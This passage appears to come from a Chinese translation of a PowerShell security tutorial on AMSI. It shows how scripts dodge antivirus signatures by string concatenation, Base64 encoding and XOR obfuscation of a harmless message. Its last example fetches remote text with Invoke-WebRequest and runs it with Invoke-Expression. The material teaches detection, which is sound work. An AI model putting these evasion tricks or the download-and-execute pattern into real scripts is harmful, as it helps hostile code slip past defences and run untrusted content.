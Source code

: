 ```
function Invoke-MaliciousScript {
    $a = 4
    $output = "Y0" + "u g" + "0t h" + $a + "ck" + ($a - 1) + "d!"
    Write-Host $output
}
Invoke-MaliciousScript
```

旧的签名通过仅仅搜索字符串已不再匹配。为了应对这一变化，防御者开始构建简单的语言模拟。例如，如果发现某个字符串是由多个子字符串连接而成，新算法会模拟这种连接并与任何恶意模式进行匹配。

## 示例 3

此时，攻击者会尝试转向更复杂的方法——例如，通过使用 Base64 编码他们的有效载荷，并在运行脚本时解码，如下所示。**"WQAwAHUAIABnADAAdAAgAGgANABjAGsAMwBkACEA"** 字符串表示我们之前字符串**"Y0u** **g0t h4ck3d!"**的 Base64 编码版本：

```
function Invoke-MaliciousScript {
    $string = "WQAwAHUAIABnADAAdAAgAGgANABjAGsAMwBkACEA"
    $output = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($string))
    Write-Host $output
}
Invoke-MaliciousScript
```

但大多数反恶意软件程序幸运地已经实现了某种 Base64 解码仿真，因此大多数**反病毒**（**AV**）引擎仍然会捕捉到这个示例。

结果，攻击者会尝试想出更困难的方式来使检测变得更加困难 - 例如使用算法混淆。

## Example 4

对于以下示例，我已经使用简单的异或算法对我们的**"Y0u g0t h4ck3d!"**攻击字符串进行了编码，得到了**"SyJnMnUiZjJ6JnF5IXYz"**编码后的字符串。使用以下函数，我们可以使用**XOR**密钥**0x12**将字符串转换回原始模式：

```
function Invoke-MaliciousScript {
    $string = "SyJnMnUiZjJ6JnF5IXYz"
    $key = 0x12
    $bytes = [System.Convert]::FromBase64String($string)
    $output = -join ($bytes | ForEach-Object { [char] ($_ -bxor $key)})
    Write-Host $output
}
Invoke-MaliciousScript
```

现在，这个示例比普通反恶意软件引擎能够仿真的任何内容都要高级得多。因此，如果没有进一步的机制（如 AMSI），我们将无法检测到此脚本的操作。当然，防御者可以编写签名来检测混淆的脚本。

## Example 5

但是如果脚本看起来只是一个正常的、行为良好的脚本，但最终却从网络下载并在本地执行恶意内容，就像以下示例一样，你如何为其编写签名呢？

```
function Invoke-MaliciousScript {
    $output = Invoke-WebRequest https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter12/AMSIExample5.txt
    Invoke-Expression $output
}
Invoke-MaliciousScript
```
